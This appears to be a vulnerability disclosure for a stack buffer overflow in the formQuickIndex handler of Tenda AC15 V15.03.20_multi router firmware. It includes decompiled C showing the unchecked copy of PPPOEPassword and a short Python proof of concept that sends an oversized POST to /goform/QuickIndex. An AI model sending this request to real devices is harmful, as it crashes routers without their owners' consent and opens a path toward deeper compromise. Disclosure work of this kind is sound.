 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `formQuickIndex` function. The `v8` variable receives the `PPPOEPassword` parameter from a POST request and is later assigned to the `s` variable, which is fixed at 72 bytes. However, since the user can control the input of  `PPPOEPassword`, in function `sub_4FDE4`, the statement: 

```c
_BYTE *__fastcall sub_4FDE4(_BYTE *result, _BYTE *a2)
{
  _BYTE *v2; // [sp+0h] [bp-Ch]
  _BYTE *v3; // [sp+4h] [bp-8h]

  v3 = result;
  v2 = a2;
  if ( result && a2 )
  {
    while ( *v3 )
    {
      if ( *v3 == 92 )
        ++v3;
      *v2++ = *v3++;
    }
    *v2 = 0;
  }
  return result;
}
```

can cause a stack overflow. The user-provided  `PPPOEPassword` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240306173835516](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306173835516.png)

![image-20240314164309342](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314164309342.png)

![image-20240314164426015](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314164426015.png)

![image-20240306174138778](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306174138778.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/QuickIndex"
payload = b"a"*1000

data = {"mit_linktype":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314164402112](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314164402112.png)